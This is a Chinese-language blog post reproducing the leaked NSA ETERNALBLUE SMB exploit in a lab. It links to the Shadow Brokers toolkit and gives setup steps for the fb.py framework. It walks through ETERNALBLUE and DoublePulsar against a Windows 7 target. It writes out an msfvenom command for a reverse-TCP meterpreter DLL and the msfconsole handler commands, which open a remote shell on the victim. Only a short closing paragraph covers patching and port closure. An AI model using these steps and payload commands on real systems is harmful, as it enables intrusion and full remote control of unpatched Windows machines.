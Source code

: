 ```yaml
---
layout: post
title: NSA 0day ETERNALBLUE  漏洞利用
category: security
tags: [NSA 0day]
keywords: NSA 0day
description: NSA 0day ETERNALBLUE  漏洞利用
---  
```


## NSA 0day ETERNALBLUE  漏洞利用  
      
Shadow Brokers再次泄露出一份震惊世界的机密文档，其中包含了多个精美的 Windows 远程漏洞利用工具，可以覆盖大量的 Windows 服务器，一夜之间所有Windows服务器几乎全线暴露在危险之中。  

目前已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000（没错，古董也支持）、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。  

工具中的ETERNALBLUE模块是SMB 漏洞利用程序，可以攻击开放了 445 端口的 Windows 机器，本文进行了漏洞利用复现：  

  

**1.NSA泄露工具下载地址：**  
https://github.com/x0rz/EQGRP_Lost_in_Translation  
  
 
**2.安装方法**  
环境搭建  

注意，必须按照python2.6相关版本，其他版本不奏效。  

下载python2.6并安装  

下载pywin32并安装  

将C:\Python26添加到环境变量PATH中。  

配置环境  

将EQGRP_Lost_in_Translation下载到的文件解压，找到\windows\fb.py，将，下图中两个部分注释掉。  
      
![e1](/assets/themes/images/NSA/1.png)       
![e2](/assets/themes/images/NSA/2.png)  


**3.实验环境：**  

攻击机1：192.168.71.133，win server 2008，32bit。   
![e3](/assets/themes/images/NSA/3.png)  
攻击机2：192.168.71.130 kali2  
![e4](/assets/themes/images/NSA/4.png)  
靶机：192.168.199.107，win7 64bit  
![e5](/assets/themes/images/NSA/5.png)  

**4.实验步骤：**  

在靶机1（192.168.71.133）中安装好python、pywin32以及NSA工具，在C:\shadowbroker-master\windows  中执行fb.py：  
![e6](/assets/themes/images/NSA/6.png)  
分别设置攻击IP地址192.168.199.107，回调地址192.168.71.133（攻击机1），关闭重定向，设置日志路径，新建或选择一个project：  
![e7](/assets/themes/images/NSA/7.png)  
接下来输入命令：  

use ETERNALBLUE  

依次填入相关参数，超时时间等默认参数可以直接回车：  

![e8](/assets/themes/images/NSA/8.png)  
由于靶机是win7 系统，在目标系统信息处选择1：win72k8r2  
![e9](/assets/themes/images/NSA/9.png)    
模式选1：FB  
![e10](/assets/themes/images/NSA/10.png)    
确认信息，执行  
![e11](/assets/themes/images/NSA/11.png)   
![e12](/assets/themes/images/NSA/12.png)   
成功后，接着运行use Doublepulsar：  
![e13](/assets/themes/images/NSA/13.png)    
并依次填入参数，注意在function处选择2，rundll  
![e14](/assets/themes/images/NSA/14.png)   
同时在攻击机2 kali的msfvenom 生成攻击dll：  

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.71.130 LPORT=5555 -f dll > go.dll  

![e15](/assets/themes/images/NSA/15.png)    
接着执行：  

	$ msfconsole  
	msf > use exploit/multi/handler
	msf > set LHOST 192.168.71.130
	msf > set LPORT 5555
	msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
	msf > exploi  

![e16](/assets/themes/images/NSA/16.png)    
同时将生成的go.dll上传到攻击机1（192.168.71.133），回到攻击机1，填入攻击dll路径：  

![e17](/assets/themes/images/NSA/17.png)   
接下来一路回车，执行攻击  
![e18](/assets/themes/images/NSA/18.png)   
回到kali，获得shell，攻击成功：  
![e19](/assets/themes/images/NSA/19.png)     



**5.缓解措施：**    

微软表示已经修补了Shadow Brokers小组发布的Windows漏洞。可能源于国家安全局的黑客工具昨天在线发布，微软能够测试并确认修补程序已经可用于所有当前支持的Windows版本。这意味着较旧的Windows XP或Windows Vista系统仍然可能容易受到发布的三个漏洞的攻击，但是由于Microsoft已经不支持，因此Microsoft不太可能为这些旧版本的Windows提供补丁。  

请大家及时更新补丁，并关闭必要的139,445,3389端口。  



  

